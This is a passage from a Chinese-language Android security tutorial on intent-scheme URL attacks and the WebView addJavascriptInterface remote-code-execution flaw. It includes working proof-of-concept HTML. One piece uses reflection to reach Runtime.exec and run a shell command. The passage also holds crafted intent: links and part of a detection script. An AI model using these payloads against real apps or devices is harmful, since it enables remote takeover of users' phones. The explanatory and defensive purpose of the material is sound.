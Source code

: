 ![](androidac8.jpg)

```
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
</a><br> 
```

![](androidac9.jpg)

### 案例6:webview RCE

```
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
</a><br> 
```

![](androidac10.jpg) ![](androidac11.jpg)

Webview 类是Android SDK 中封装的用于显示网页的组件，通过webview 组件应用可以轻松地开发内置浏览器访问网页，同时webview 组件中还提供了一些接口实现应用与页面中Javascript 脚本的交互，其中用于javascript 调用导出的java 类的 AddJavascripInterface 方法被发现存在远程命令执行漏洞，攻击者可以找到存在"getClass"方法的对象，然后通过反射的机制，得到Java Runtime对象，然后调用静态方法来执行系统命令。

用户在使用包含此漏洞的应用访问特定的网页时会执行网页中的恶意代码，可导致手机被远程控制。相关漏洞代码示例如下：

```
WebView webView = new WebView (R.id.webView1);
webView.getSettings().setJavaScriptEnabled(true);
webView.addJavascriptInterface(new TEST(), "demo");
webView.loadUrl("http://127.0.0.1/check.html"); 
```

Check.html 代码：

```
<html>
<script> function execute(cmd){
return demo.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo  "hello" > /sdcard/check.txt']); </script>
</html> 
```

调用demo对象的getClass方法得到java.lang.Runtime对象，然后通过java反射机制调用getRuntime方法获得runtime实例，最终通过exec方法执行命令。代码执行成功会在SD卡根目录下生成check.txt文件。

访问 webview.html 进行漏洞自动检测，代码 如下：
原理：遍历所有window的对象，然后找到包含getClass方法的对象,如果存在此方法的对象则说明该接口存在漏洞。

```
<script type="text/javascript"> function check() {
    for (var obj in window)
    {    
        try {

            if ("getClass" in window[obj]) {

                try{

                    window[obj].getClass();

                    document.write('<span style="color:red">'+obj+'</span>');

                    document.write('<br />');

                }catch(e){

```